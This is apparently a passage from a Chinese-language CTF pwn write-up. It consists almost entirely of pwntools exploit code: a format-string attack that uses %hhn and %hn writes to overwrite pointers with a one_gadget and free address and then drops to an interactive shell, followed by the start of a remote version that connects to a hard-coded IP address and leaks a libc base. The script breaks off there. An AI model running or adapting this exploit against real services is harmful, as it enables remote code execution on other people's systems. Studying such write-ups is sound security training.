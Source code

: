 ```plain
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
#gdb.attach(p)
'''
'''
itr()
```

## exp (远程)

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


#p=process('./pwn')
p=remote('60.204.130.55',10010)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

sla('Do you know who the best pwner is?\n','TokameinE_is_the_best_pwner\0')

sla('What do you want to say?\n','%18$p')
ru('0x')
libcbase = int(r(12),16) - 0x5f1168
```